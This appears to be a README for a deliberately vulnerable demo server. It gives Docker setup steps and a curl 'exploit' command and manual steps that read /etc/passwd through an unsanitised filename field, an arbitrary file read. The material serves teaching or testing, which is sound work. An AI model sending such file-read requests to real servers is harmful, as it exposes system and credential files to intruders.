 ## Setup 
1. git clone https://github.com/wbowm15/ubiquitous-eureka.git
2. cd ubiquitous-eureka
3. docker build -t server . 
4. docker run -p5000:5000 server

## Curl Exploit Command 
curl 'http://127.0.0.1:5000/get-file' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'filename=%2Fetc%2Fpasswd'

  ## Manual Exploit Steps 
  1. Enter /etc/passwd or another file in the "Enter a filename to fetch:" form and hit query
